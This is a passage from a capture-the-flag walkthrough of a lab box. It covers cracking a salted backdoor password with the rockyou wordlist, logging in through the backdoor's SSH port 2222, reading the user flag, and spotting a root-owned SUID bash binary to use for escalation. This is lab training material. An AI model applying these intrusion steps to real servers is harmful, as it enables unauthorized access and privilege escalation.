 ```python
            print(f"Password found: {password}")
            break
```

The script uses the rockyou wordlist, for each word in the wordlist it concatenates the word with the salt value, hash the resulting string and check if the hash matches the backdoor's hash.  
The logic is pretty much the same used by the authentication mechanism of the backdoor.  
Run the script and it will find the password almost immediately.

```bash
python hash.py
Password found: [REDACTED]
```

## Access the server with the backdoor

Knowing how the backdoor works and its password you can now regain access to the server.  
From the code you can see that the backdoor listens on port 2222, access to it.

```bash
ssh 10.10.79.213 -p 2222
The authenticity of host '[10.10.79.213]:2222 ([10.10.79.213]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.79.213]:2222' (RSA) to the list of known hosts.
root@10.10.79.213's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$
```

Retrieve the user flag.

```bash
cd /home/james
james@overpass-production:/home/james$ cat user.txt
[REDACTED]
```

It seems that the attacker changed a few passwords: the user **james** should not be able to run sudo commands with the old password we found earlier in the pcap file.  
Also the passwords you cracked earlier for the other users should not work, you have to figure out another way to get higher privileges.  
Looking into james' home, a file owned by root catches the eye.

```bash
ls -la /home/james
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```
